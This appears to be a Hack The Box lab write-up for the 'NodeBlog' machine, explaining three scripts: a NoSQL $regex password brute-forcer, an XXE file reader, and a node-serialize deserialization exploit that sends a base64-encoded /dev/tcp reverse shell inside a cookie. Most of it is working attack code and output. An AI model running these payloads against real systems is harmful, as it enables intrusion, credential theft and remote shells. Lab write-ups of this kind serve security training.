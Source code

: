 # Hack The Box. Machines. NodeBlog

Machine write-up: https://7rocky.github.io/en/htb/nodeblog

### `nosqli.sh`

This script performs a NoSQLi injection attack to extract a clear-text password using `$regex` MongoDB operator.

First, it starts obtaining the length of the password:

```bash
url=10.10.11.139:5000/login
user=admin

function do_nosqli() {
	curl $url -H 'Content-Type: application/json' -sd $1 | grep Invalid
}

while true; do
	data='{"user":"'$user'","password":{"$regex":"^.{'$password_length'}$"}}'
	echo -ne "Password length: $password_length\r"

	if [ -z "$(do_nosqli "$data")" ]; then
		break
	fi

	password_length=$((password_length + 1))
done
```

Basically, we are using a regular expression like `^.{3}$` to match any character `3` times from start to end. So, we iterate this number until we find the perfect match (where `Invalid` is not shown). Manually, this is the idea:

```console
$ curl 10.10.11.139:5000/login -sd '{"user":"admin","password":{"$regex":"^.{24}$"}}' -H 'Content-Type: application/json' | grep Invalid
            Invalid Password

$ curl 10.10.11.139:5000/login -sd '{"user":"admin","password":{"$regex":"^.{25}$"}}' -H 'Content-Type: application/json' | grep Invalid
```

After that, we start dumping the characters of the password using `$regex` again:

```bash
for i in $(seq 1 $password_length); do
	echo -ne "Password: $password\r"

	for c in {A..Z} {a..z} {0..9}; do
		data='{"user":"'$user'","password":{"$regex":"^'$password$c'.{'$(($password_length - $i))'}$"}}'

		if [ -z "$(do_nosqli $data)" ]; then
			password+=$c
			break
		fi
	done
done
```

This time, we iterate a character at a certain position until it matches. For example: `^A.{24}$` through `^9.{24}$` until some character matches. Then, we continue with `^IA.{23}$` through `^I9.{23}$` until we get the full password.

The password is obtained if we run the script:

```console
$ bash nosqli.sh
Password length: 25
Password: IppsecSaysPleaseSubscribe
```

### `xxe.py`

This script allows us to read files from the server provided the absolute path to a file using an XML External Entity (XXE) injection.

The website parses an XML document to fill in the fields in a form to edit a blog post. In the uploaded XML document, we can add an entity to extract the contents of a file. For instance:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">] >
<post>
  <title></title>
  <description>&xxe;</description>
  <markdown></markdown>
</post>
```

The contents of `/etc/passwd` will be printed in a `<textarea>` (read the [write-up](https://7rocky.github.io/en/htb/nodeblog) to see a proof of concept).

The `main` function does precisely this task:

```python
def main():
    if len(sys.argv) == 1:
        print(f'Usage: python3 {sys.argv[0]} <filename>')
        exit(1)

    filename = sys.argv[1]
    xml = send_xml(filename)

    try:
        print(html.unescape(re.findall(r'<textarea.*?>(.*?)</textarea>', xml, re.DOTALL)[0]))
    except IndexError:
        print('Not Found')
```

And `send_xml` only puts the name of the file in the entity and sends it as a file attachment called `test.xml`:

```python
def send_xml(filename):
    xml = f'''<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file://{filename}">] >
<example>
  <title></title>
  <description>&xxe;</description>
  <markdown></markdown>
</example>
'''

    res = requests.post('http://10.10.11.139:5000/articles/xml', files={'file': ('test.xml', xml)})

    return res.text
```

Curiously, there is no need to be authenticated. If we run the script, we can get the contents of a file. For example:

```console
$ python3 xxe.py /etc/hosts
127.0.0.1 nodeblog localhost
127.0.1.1 ubuntu-template

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

### `rce-serialize.js`

This script is used to obtain a reverse shell on the machine because it uses `unserialize` method from `node-serialize`. This Node.js module is known to have a Remote Code Execution (RCE) vulnerability (more information at [snyk.io](https://security.snyk.io/vuln/npm:node-serialize:20170208), CVE-2017-5941).

The idea is to add this payload so that `unserialize` executes it:

```js
const serialize = require('node-serialize')
const payload = `{"rce":"_$$ND_FUNC$$_function() { require('child_process').exec('ls') }()"}`
serialize.unserialize(payload)
```

The `unserialize` method is called on a session cookie that is in JSON format (using URL encoding). So, the idea is to add the previous payload into the cookie and send it.

In the script, first we login in order to get a valid session cookie, and then we send the RCE payload inside the cookie:

```js
const [lhost, lport] = process.argv.slice(2, 4)

const main = async () => {
  if (!lhost || !lport) {
    console.log('[!] Usage: node serialize-rce.js <lhost> <lport>')
    process.exit()
  }

  const cookie = await login()
  console.log('[+] Login successful')

  await rce(cookie, `echo ${reverseShell()} | base64 -d | bash`)
  console.log('[+] RCE completed')
}

main()
```

The use of `reverseShell` is to use a command that executes a reverse shell and encoded in Base64:

```js
const reverseShell = () =>
  Buffer.from(`bash  -i >& /dev/tcp/${lhost}/${lport} 0>&1`).toString('base64')
```

The `login` function only authenticates with credentials obtained before and returns the session cookie:

```js
const axios = require('axios')

const user = 'admin'
const password = 'IppsecSaysPleaseSubscribe'
const baseUrl = 'http://10.10.11.139:5000'

const login = async () => {
  const res = await axios.post(`${baseUrl}/login`, { user, password })

  return res.headers['set-cookie'][0]
}
```

Finally, the `rce` function is this one:

```js
const rce = async (cookie, cmd) => {
  const paramIndex = cookie.indexOf(';')

  cookie =
    cookie.substring(0, paramIndex - 3) +
    encodeURIComponent(
      `,"rce":"_$$ND_FUNC$$_function() { require('child_process').exec('${cmd}') }()"}`
    ) +
    cookie.substring(paramIndex)

  await axios.get(baseUrl, { headers: { cookie } })
}
```

Basically, the cookie return from `login` is something like this:

```
auth=%7B%22user%22%3A%22admin%,%22sign%22%3A%2223e112072945418601deb47d9a6c7de8%22%7D; Max-Age=900; Path=/; HttpOnly
```

Hence, the function gets the index of the first semi-colon (`;`), in order to add the RCE payload before `%7D` (which is `}` in URL encoding). All the cookie must have a valid URL encoding. Finally, we send it.

Using `nc` on another terminal, we get access to the machine:

```console
$ npm install

$ node serialize-rce.js 10.10.17.44 4444
[+] Login successful
[+] RCE completed
```

```console
$ nc -nlvp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.11.139.
Ncat: Connection from 10.10.11.139:55018.
bash: cannot set terminal process group (861): Inappropriate ioctl for device
bash: no job control in this shell
admin@nodeblog:/opt/blog$
```


